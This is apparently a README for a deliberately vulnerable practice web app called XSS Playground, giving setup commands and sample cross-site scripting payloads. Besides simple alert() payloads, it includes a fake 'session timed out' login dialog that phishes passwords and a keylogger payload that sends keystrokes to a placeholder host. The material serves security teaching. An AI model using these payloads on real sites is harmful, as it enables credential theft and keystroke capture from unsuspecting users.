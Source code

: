 # XSS Playground

A simple vulnerable web application to play around with XSS.

## Setup guide

Simply clone this repository and install the dependencies.

```
npm install
```

## Development

To run the web application in `dev` mode:

```
npm run dev
```

## Payloads

#### General

```html
<script>alert(1);</script>

<body onload='alert(1)'></body>

<img src=404 onerror='alert(1)' />

<iframe SRC='javascript:alert(1)'></iframe>
```

#### Fake login dialog form

```html
<dialog id='xss-dialog'>
	<h3>Your session has timed out. Please login again!</h3>
	<form method="dialog">
		<label for="username">Username:</label>
		<input id="username" name="username" type="text" />
		<br /> <br />
		<label for="password">Password:</label>
		<input id="password" name="password" type="password" />
		<br /> <br />
		<button type="submit">Login</button>
	</form>
</dialog>
<img src=x onerror="document.querySelector('#xss-dialog').showModal()"/>
```

#### Capture victim's keypress

```html
<img src=x onerror="
  document.addEventListener('keyup', (ev) => {
    fetch(`http://<hostname>/?key=${ev.key}`);
  });
" />
```
